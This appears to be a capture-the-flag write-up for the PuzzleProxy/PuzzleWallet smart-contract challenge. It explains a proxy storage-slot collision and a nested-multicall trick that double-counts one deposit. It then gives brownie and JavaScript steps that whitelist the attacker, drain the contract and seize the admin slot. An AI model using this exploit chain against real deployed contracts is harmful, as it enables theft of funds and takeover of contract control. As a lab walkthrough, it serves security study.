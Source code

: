 ## Goal:
We need to become the admin of the contract. 

## Explanation
We have the proxy contract which is the PuzzleProxy where it contain the parameter admin.We can not directly be the admin of the contract, we can propose ourself as an admin but we can't approve ourself as an admin as this require us to be the admin. The admin slot is located on slot 1 and pendingAdmin on slot 0.
We have the other contract which is the PuzzleWallet, we have the first 2 parameter: owner and maxBalance. Since there is a delegate call with the above contract however both storage layout are differenet so the owner is the same as pendingAdmin and the maxBalance is the same as admin. So if we updatethe balance then we will become the admin.

## How we will do it?
1. We have the function setBalance but it requires us to be onlyWhitelisted.
2. There is function addToWhitelist but inorder to call it we need to be the owner.
3. Since we can propose ourself as a pendingAdmin then we will become the owner.
4. So we can become whitelisted. ( proposeNewAdmin(ourAddress)->owner->addToWhitelist(ourAddress) )
5. However there is another requirement which is ```solidity require(address(this).balance == 0, "Contract balance is not 0");```
6. The contract balance is 0.001 so we need to bypass it.
7. We have also this function multicalldata
```solidity
    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
 ```
 8. This function allow us to call multiple calls in the same transaction howver since we have the check if the depositCalled is called or not we cannot bypass simple deposit() so we need another way.
 9. What about calling multiple ```multicall``` and we pass deposit on it so we can bypass the check :)
 10. Since we know how to bypass this let us think what we want to do to make the balance 0.
 11. If we can call deposit different times in the multicall function so if we deposit money more than what the contract have (0.001) then our balance will be greate that the balance of the contract so if we call the execute function and transfer our funds the balance of the contract will be 0.
 12. Now we can setBalance and so we are the admin :)

## Steps
```python
def exploit():
    account = get_account()
    puzzle = interface.PuzzleProxy(config['ADDRESS'])
    tx = puzzle.proposeNewAdmin(account.address,{"from": account})
    tx.wait(1)

    ## Add to whitelist
    puzzleWallet = interface.PuzzleWallet(config['ADDRESS'])
    tx2 = puzzleWallet.addToWhitelist(account.address,{"from": account})
    tx2.wait(1)


def main():
    exploit()
```
1. The above code will add to the whitelist(using brownie)
2. depositData = await contract.methods["deposit()"].request().then(v=>v.data)
3. multiCallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v=>v.data)
4. await contract.multicall([multiCallData,multiCallData],{value:toWei('0.001')})
5. await contract.execute(player,toWei('0.002'),[])
6. await contract.setMaxBalance(player)
